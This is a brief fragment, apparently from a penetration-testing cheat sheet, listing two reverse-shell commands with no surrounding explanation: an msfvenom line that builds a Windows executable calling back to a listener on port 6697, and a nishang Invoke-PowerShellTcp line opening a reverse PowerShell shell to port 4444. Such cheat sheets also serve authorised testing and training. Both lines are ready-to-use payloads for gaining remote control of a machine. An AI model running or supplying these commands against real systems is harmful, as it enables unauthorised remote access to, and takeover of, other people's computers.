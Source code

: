msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.12.15.117 LPORT=6697 -f exe -o venom.exe


### nishang
{Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444}